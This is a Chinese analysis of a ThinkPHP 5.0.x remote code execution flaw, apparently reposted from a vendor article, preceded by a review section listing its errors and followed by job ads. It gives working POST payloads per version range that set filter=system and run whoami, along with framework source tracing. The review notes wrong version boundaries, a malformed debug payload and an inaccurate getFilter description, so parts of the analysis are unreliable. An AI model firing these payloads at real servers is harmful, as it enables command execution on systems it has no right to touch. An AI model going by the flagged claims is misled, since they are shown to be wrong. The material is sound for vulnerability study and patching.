## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：以5.0.13、5.0.21为变化点至5.0.23，5.0.24白名单修复；debug/验证码方法路由/完整版条件有细分

代码与实验材料：499行全读，完整method/input/filterValue源码及filter、construct、get/route/server变体；有独立分析价值

来源证据范围：安恒雷神众测原文，缺精确版本commit或官方链接

- **适用与权限边界（1）**：区间端点遗漏且总述与正文不一致；依据：总述用小于/大于5.0.13和5.0.21导致两边界版本空缺；debug样例写_method=construct少双下划线。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：部分变量流说明与源码不符；依据：称 getFilter 将 filter\[0\]=null，实际应在数组末尾追加默认值；construct分支说明又复用filter数组含system/whoami的旧叙述。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（3）**：缺下限和依赖锁定；依据：写&lt;5.0.13易包含不可利用早期版，需按代码变化而非全范围推论。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **来源与引用处置（4）**：招聘广告占比大；依据：后半多岗位联系方式与漏洞无关，应与正文分离。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# ThinkPHP 远程代码执行分析

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/r64K2DjQJ0GfQY9sR5De0g)

**STATEMENT**

**声明**

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测及文章作者不为此承担任何责任。

雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

安恒西安运营中心

**NO.1 总述**

在版本小于 5.0.13，不开启 debug 的情况下 会通过变量覆盖修改 $request 类的变量的值通过 bindParams 中的 param 函数进行任意函数调用  
_method=__construct&method=get&filter=system&s=whoami

  
在版本小于 5.0.13，开启 debug 的情况下会执行命令两次 一次在 bindParams 的 param 一次在 run() 中的 param 函数  
_method=__construct&method=get&filter=system&s=whoami

  
在版本大于 5.0.13 小于 5.0.21 情况下，开启 debug 的情况下，在 run() 中的 param 函数执行命令  
_method=__construct&method=get&filter=system&s=whoami

  
在版本大于 5.0.13 小于 5.0.21 情况下，不开启 debug 的下需要完整版 thinkphp，在 method 分支下 param 函数 rce  
POST /index.php?s=captcha  
_method=__construct&method=get&filter=system&s=whoami

  
在大于 5.0.21 小于等于 5.0.23 的情况下，由于修改了 method 函数的逻辑，无法随意用变量，这里统一用只能用 get[],route[]。  
完整版 ThinkPHP 如下  
POST /index.php?s=captcha  
_method=__construct&method=get&filter=system&get[]=whoami  
_method=__construct&method=get&filter=system&route[]=whoami  
开启 debug 如下  
_method=construct&method=get&filter=system&route[]=whoami

  
在 5.0.24 的时候由于限制了表单请求伪装传入的参数，传入的参数只能为限定的参数，无法进行 request 类下任意函数调用

**NO.2 POC1**

ThinkPHP<=5.0.23 需要开启 debug  
a=system&b=whoami&_method=filter

**漏洞定位**

通过 debug 发现是在第 127 行调用了 $request->param() 函数之后导致了 rce，那跟进一下该函数，发现是在该函数里面调用了 input 函数，而 input 函数里存在一个 filterValue 函数，该函数里调用了 call_user_func 函数从而导致任意 php 代码执行。(后面发现是存在 array_walk_recursive 函数，通过隐式调用 filterValue 造成了 RCE)(由于该处代码是开启了 debug 之后才会调用的代码，所以此处略鸡肋，需要开启 debug)

**漏洞分析**

那么此时这里是调用了 $request 变量，这个变量是一个 Request 对象的实例，那么看一下这个实例是在哪里构建的，通过之前的路由流程分析可以知道在调用了 routeCheck 之后，$request 变量里面便有了数据，跟进该函数，通过之前的路由流程分析可以得知，在 routeCheck 函数的第 618 行数获取路径信息，第 619-640 行都是在获取默认配置，到第 642 行这里调用了 Route::check 函数，根据之前的分析可知，在该 check 函数的第 848 行，调用了 $request->method 函数，在里面根据请求模式进行了赋值，这里 debug 断点看一下。

先贴代码

```
public function method($method = false)
{
        if (true === $method) {
            // 获取原始请求类型
            return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $this->method = strtoupper($_POST[Config::get('var_method')]);
                $this->{$this->method}($_POST);
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
            }
        }
        return $this->method;
    }
 public function param($name = '', $default = null, $filter = '')
    {
        if (empty($this->param)) {
            $method = $this->method(true);
            // 自动获取请求变量
            switch ($method) {
                case 'POST':
                    $vars = $this->post(false);
                    break;
                case 'PUT':
                case 'DELETE':
                case 'PATCH':
                    $vars = $this->put(false);
                    break;
                default:
                    $vars = [];
            }
            // 当前请求参数和URL地址中的参数合并
            $this->param = array_merge($this->get(false), $vars, $this->route(false));
        }
        if (true === $name) {
            // 获取包含文件上传信息的数组
            $file = $this->file();
            $data = is_array($file) ? array_merge($this->param, $file) : $this->param;
            return $this->input($data, '', $default, $filter);
        }
        return $this->input($this->param, $name, $default, $filter);
    }
```

可以看到，此处是直接调用的所以为缺省变量，进入第二层，注意这里判断了是否存在 POST 传入的 Config::get('var_method')，该值在 ThinkPHP 中的默认配置为_method，poc 里传入了该参数，那么进入该分支，这里把 $this->method(也就是 $request->$method) 变量赋值为传入的_method，然后调用 $this->{$this->method}($_POST); 这里是一个隐式调用，此时 $this->$method 的值为 filter, 就相当于调用了 $this->filter($_POST) 函数，那么该操作完成后 $request 的 filter 变量里存着 post 传入的数据，注意该参数均可控，那就导致了该行代码可以调用 Request 类的任意函数，此时 $request->$method 为 filter。



接着根据之前的路由流程可以得知，后面的操作主要是进行参数赋值。



直接进入到发生命令执行的 param 函数处，跟进该函数，可以看到该函数根据 method 类型来进行 switch case，这里是 post，进入 post 函数，该 post 函数也调用了 input，但是因为传入的 $name=false 所以直接在 input 函数的第三行 return 了回去。

  
所以继续往下走，调用 $this->input 函数，此时传入四个参数,$this->param 为 post 传入的数据，$name 为空，$default 为空，$filter 也为空，进入该函数，该函数先把 $name 转为字符串，然后调用 $this->getFilter 函数，跟进该函数 $filter 被赋值为 $this->$filter，然后将 $filter 转为数组，并给 $filter[0] 赋值为 null，然后 return。

  
接下来调用了 array_walk_recursive, 该函数是一个回调函数，只不过参数为数组，第一个。这里数组是传入的 $data，此时 data 是一个数组，里面放的是 POST 传进来的数据，然后 $filter 是 $data 数组里加了一个 0=null, 然后第二个参数就是回调的函数，跟进此函数发现确实进入了 filterValue 函数，首先把数组中最后一个值弹出来，那么此时弹出来的就是刚刚赋值为 null 的，所以此时 $default 为 null，然后对 $filter 进行一个循环，当函数可以调用的时候进入 call_user_func 函数，也就是命令执行的点，此时 $filter 为 $filters 的值，$value 是 data 数组的值。然后通过 call_user_func 进行调用。那么根据传入的 POST 数据首先是 system('system')，那么肯定执行失败，然后第二个 $filter 为 whoami，此时会判断该函数是否可以被调用，那么显然不可以，然后就直接进入 break 终止了该次循环，然后调用 data 数组的第二个值为 whoami，然后此时 $filter 为第一个值为 system，那么此时 call_user_func 就顺利执行了，成功执行了 system 函数。

```
public function input($data = [], $name = '', $default = null, $filter = '')
    {
        if (false === $name) {
            // 获取原始数据
            return $data;
        }
        $name = (string) $name;
        if ('' != $name) {
            // 解析name
            if (strpos($name, '/')) {
                list($name, $type) = explode('/', $name);
            } else {
                $type = 's';
            }
            // 按.拆分成多维数组进行判断
            foreach (explode('.', $name) as $val) {
                if (isset($data[$val])) {
                    $data = $data[$val];
                } else {
                    // 无输入数据，返回默认值
                    return $default;
                }
            }
            if (is_object($data)) {
                return $data;
            }
        }

        // 解析过滤器
        $filter = $this->getFilter($filter, $default);

        if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            reset($data);
        } else {
            $this->filterValue($data, $name, $filter);
        }

        if (isset($type) && $data !== $default) {
            // 强制类型转换
            $this->typeCast($data, $type);
        }
        return $data;
    }

private function filterValue(&$value, $key, $filters)
{
        $default = array_pop($filters);
        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (false !== strpos($filter, '/')) {
                    // 正则过滤
                    if (!preg_match($filter, $value)) {
                        // 匹配不成功返回默认值
                        $value = $default;
                        break;
                    }
                } elseif (!empty($filter)) {
                    // filter函数不存在时, 则使用filter_var进行过滤
                    // filter为非整形值时, 调用filter_id取得过滤id
                    $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                    if (false === $value) {
                        $value = $default;
                        break;
                    }
                }
            }
        }
        return $this->filterExp($value);
    }
```

**NO.3 POC2**

**1、ThinkPHP<5.0.13**

_method=__construct&method=get&filter=system&s=whoami

**漏洞定位**

同样的_method=__construct 这个变量表示了还是在走 $this->{$this->method}($_POST) 这条路

**漏洞分析**

跟进__construct 函数，这里进行了一个循环，这里传入的是一个 POST 传入的四个键值对，这里执行了 $this->(键) = 值，那么经过这个循环之后 $request 对象里的 method 的值为 get，filter=system



那么此时 $this->filter=system ,$this->method=GET，这里要重新把 $this->method 赋值是为了兼容之前的版本下图是 5.0.20 的版本，在 5.0.8 之前 是没有三元判断的，所以在这里如果不重新赋值就会去 $rules 数组里找 $method 的值，很显然传入的__construct 是不在里面的，所以会导致报错。



这个时候继续跟进代码到 exec 函数里，switch 进入到 module 分支



进入该函数，根据之前的路由分析可知都是判断，取值操作接着进入 invokemethod，前面分析可以知道此处主要实例化了类，然后进行参数绑定最后在执行，进入 bindparams 函数，会自动获取变量，主要是调用 Request 类的 param 函数，这里首先实例化了一个 request 对象，然后调用了 param 函数。



跟进该函数，可以看到该函数根据 method 类型来进行 switch case，这里是 post，进入 post 函数，该 post 函数也调用了 input，但是因为传入的 $name=false 所以直接在 input 函数的第三行 return 了回去。



所以继续往下走，调用 $this->input 函数，此时传入四个参数,$this->param 为 post 传入的数据，$name 为空，$default 为空，$filter 也为空，进入该函数，该函数先把 $name 转为字符串，然后调用 $this->getFilter 函数，跟进该函数 $filter 被赋值为 $this->$filter，然后将 $filter 转为数组，并给 $filter[0] 赋值为 null，然后 return。



接下来调用了 array_walk_recursive, 该函数是一个回调函数，只不过参数为数组，第一个。这里数组是传入的 $data，此时 data 是一个数组，里面放的是 POST 传进来的数据，然后 $filter 是 $data 数组里加了一个 0=null, 然后第二个参数就是回调的函数，跟进此函数发现确实进入了 filterValue 函数，首先把数组中最后一个值弹出来，那么此时弹出来的就是刚刚赋值为 null 的，所以此时 $default 为 null，然后对 $filter 进行一个循环，当函数可以调用的时候进入 call_user_func 函数，也就是命令执行的点，此时 $filter 为 $filters 的值，$value 是 data 数组的值。然后通过 call_user_func 进行调用。那么根据传入的 POST 数据首先是 system('system')，那么肯定执行失败，然后第二个 $filter 为 whoami，此时会判断该函数是否可以被调用，那么显然不可以，然后就直接进入 break 终止了该次循环，然后调用 data 数组的第二个值为 whoami，然后此时 $filter 为第一个值为 system，那么此时 call_user_func 就顺利执行了，成功执行了 system 函数。



**2、ThinkPHP<=5.0.23 需要开启 debug or 完整版的 thinkphp**

**· ThinkPHP<5.0.21 开启 debug**

_method=__construct&method=get&filter=system&a=whoami

**漏洞分析**

因为在开启 debug 后会走 debug 那条路，所以就可以触发漏洞



**· ThinkPHP<5.0.21 完整版 ThinkPHP**

POST /index.php?s=captcha  
_method=__construct&method=get&filter=system&a=whoami

**漏洞分析**

在 5.0.13 之后的版本里如果不开启 debug 的话，那么就会走到 exec 里面，同时进入 self::module 里面，该函数存在一行代码 $request->filter($config['default_filter'])，导致了在这一步之前变量覆盖掉的 $request->filter 变量会被赋值回去，所以在不开启 debug 的情况下如果走 module 就无法覆盖 filter 的值。



在这个 switch 里面是通过 $dispatch 来进行选择的，而这个值是在 routecheck 这个函数里调用了 parseurl 赋值给 $dispatch 的，而且是写死的，所以只要进了 parseurl，肯定是没办法继续进行的





但是注意看在 App.php 里面的第 642 行 $result = Route::check($request, $path, $depr, $config['url_domain_deploy']) 这行代码里如果 $result 返回不为 false 的话也就不会进入下面的判断里，跟进 642 行。

  
在之前的 Thinkphp 路由流程分析里可以知道 check 函数里会进行一系列的替换，然后检测是否存在静态路由，然后判断当 $rules 不为空的时候进入 checkRoute 函数，由于完整版的 ThinkPHP 会注册一个路由为 captcha，所以此时 $rules 变量是有值的会进入该分支。



值如下



进入该函数之后，可以看到是对 $rules 变量进行了遍历，然后取键值对，校验等等，这里不进行深究，着重看到了第 958 行调用了 checkRule 函数，该函数对比了传入的 url 和路由，进行了校验后最终进入了 parseRule，继续往下走最终在 1500 行。



给 $result 赋值然后一路 return 回来到 run 函数里，接着根据之前的分析进入 exec 里面，然后进入 method 分支，然后进入到 param 分支。最终进入到 array_walk_recursive 函数，传入的参数 data 就是传入的 post 数组，$filter 就是被变量覆盖的 system，所以此时就遍历了 POST 传入的参数，遍历到的时候就执行了命令。

**· ThinkPHP<=5.0.23**

_method=__construct&method=get&filter=system&server[REQUEST_METHOD]=whoami

**漏洞分析 1**

在 5.0.21 以后 method 函数发生了改变，进入 server 函数看一下，当不存在 server[REQUEST_METHOD] 的时候直接返回 GET



同时发现其中也调用了 input 函数



在 param 函数里首先会调用 $method = $this->method(true); 那么刚好满足进入 server 函数那么由此跟进 server 函数里，首先判断是否存在 $this->server 变量，那么因为通过变量覆盖把 $this->server[REQUEST_METHOD] 赋值为 whoami, 所以此时是存在变量的所以不会进入该判断，然后进入 input 函数，此时 $this->server 为 whoami,$filter 为覆盖后的 system，$name 为字符串 REQUEST_METHOD，跟进 input 函数



在 1014 行，对 $name 进行分割，然后当存在 $data[$val] 的时候，也就是 $this->server 存在 REQUEST_METHOD 的时候把 $this->server['REQUEST_METHOD'] 赋值给 $data，所以此时 $data 是一个字符串，那么就会进入 filterValue 函数，然后在该函数中调用，其中 $filter 为变量覆盖后的值，值为 system，$value 的值为 $data 也就是 whoami



**漏洞分析 2**

此时由于前面 5.0.21 版本的改动导致了 $method 为 GET 也就无法进入 switch case 所以 $vars 为空。



如果要继续进入 input 函数，并且 $this->param 变量可控，就要在 param 最后一行代码处, 控制 $this->param，而 $this->param 是在 652 行，构造的所以可以通过变量覆盖来覆盖 $param,$get,$route 这三个变量



所以 poc 就可以改为  
_method=__construct&method=get&filter=system&get[]=whoami  
_method=__construct&method=get&filter=system&param[]=whoami  
_method=__construct&method=get&filter=system&route[]=whoami  
但是由于 param 在 route 函数里被重写了所以此处 param 不能复写



所以最终的 poc 就为  
_method=__construct&method=get&filter=system&get[]=whoami  
_method=__construct&method=get&filter=system&route[]=whoami

**RECRUITMENT**

**招聘启事**

公司：安恒信息  
岗位：**高级攻防专家**  
部门：**西安运营中心**  
薪资：20-30K  
工作年限：3 年 +  
工作地点：西安  
【岗位职责】  
1. 定期面向部门、全公司技术分享;  
2. 前沿攻防技术研究、跟踪国内外安全领域的安全动态、漏洞披露并落地沉淀；  
3. 负责完成部门渗透测试、红蓝对抗业务;  
4. 负责相关自动化平台建设  
5. 负责研究 APT 组织攻击手法及技术原理分析  
【岗位要求】  
1. 至少 3 年安全领域工作经验；  
2. 精通 Web 渗透相关技能，能够独自进行打点，渗透等工作  
3. 拥有大型产品、CMS、厂商漏洞挖掘案例  
4. 熟练掌握 PHP、Java、C#、C++、汇编等编程语言 (Web 及二进制均需要熟悉至少一门)  
5. 能够独自分析漏洞，基于 PoC 编写 EXP  
6. 能够独自进行样本分析，汲取相关技术点并进行样本深加工  
7. 熟悉常见杀软防护点，对样本进行处理达到免杀  
8. 熟悉常见的信息搜集及钓鱼手法，能够进行水坑攻击并维持目标权限

**安恒雷神众测 SRC 运营（实习生）**  
————————  
【职责描述】  
1.  负责 SRC 的微博、微信公众号等线上新媒体的运营工作，保持用户活跃度，提高站点访问量；  
2.  负责白帽子提交漏洞的漏洞审核、Rank 评级、漏洞修复处理等相关沟通工作，促进审核人员与白帽子之间友好协作沟通；  
3.  参与策划、组织和落实针对白帽子的线下活动，如沙龙、发布会、技术交流论坛等；  
4.  积极参与雷神众测的品牌推广工作，协助技术人员输出优质的技术文章；  
5.  积极参与公司媒体、行业内相关媒体及其他市场资源的工作沟通工作。  
【任职要求】   
 1.  责任心强，性格活泼，具备良好的人际交往能力；  
 2.  对网络安全感兴趣，对行业有基本了解；  
 3.  良好的文案写作能力和活动组织协调能力。

简历投递至 

bountyteam@dbappsecurity.com.cn

**设计师（实习生）**  

————————

【职位描述】  
负责设计公司日常宣传图片、软文等与设计相关工作，负责产品品牌设计。  
【职位要求】  
1、从事平面设计相关工作 1 年以上，熟悉印刷工艺；具有敏锐的观察力及审美能力，及优异的创意设计能力；有 VI 设计、广告设计、画册设计等专长；  
2、有良好的美术功底，审美能力和创意，色彩感强；

3、精通 photoshop/illustrator/coreldrew / 等设计制作软件；  
4、有品牌传播、产品设计或新媒体视觉工作经历；  
【关于岗位的其他信息】  
企业名称：杭州安恒信息技术股份有限公司  
办公地点：杭州市滨江区安恒大厦 19 楼  
学历要求：本科及以上  
工作年限：1 年及以上，条件优秀者可放宽

简历投递至 

bountyteam@dbappsecurity.com.cn

安全招聘  

————————  
公司：安恒信息  
岗位：**Web 安全 安全研究员**  
部门：战略支援部  
薪资：13-30K  
工作年限：1 年 +  
工作地点：杭州（总部）、广州、成都、上海、北京

工作环境：一座大厦，健身场所，医师，帅哥，美女，高级食堂…  
【岗位职责】  
1. 定期面向部门、全公司技术分享;  
2. 前沿攻防技术研究、跟踪国内外安全领域的安全动态、漏洞披露并落地沉淀；  
3. 负责完成部门渗透测试、红蓝对抗业务;  
4. 负责自动化平台建设  
5. 负责针对常见 WAF 产品规则进行测试并落地 bypass 方案  
【岗位要求】  
1. 至少 1 年安全领域工作经验；  
2. 熟悉 HTTP 协议相关技术  
3. 拥有大型产品、CMS、厂商漏洞挖掘案例；  
4. 熟练掌握 php、java、asp.net 代码审计基础（一种或多种）  
5. 精通 Web Fuzz 模糊测试漏洞挖掘技术  
6. 精通 OWASP TOP 10 安全漏洞原理并熟悉漏洞利用方法  
7. 有过独立分析漏洞的经验，熟悉各种 Web 调试技巧  
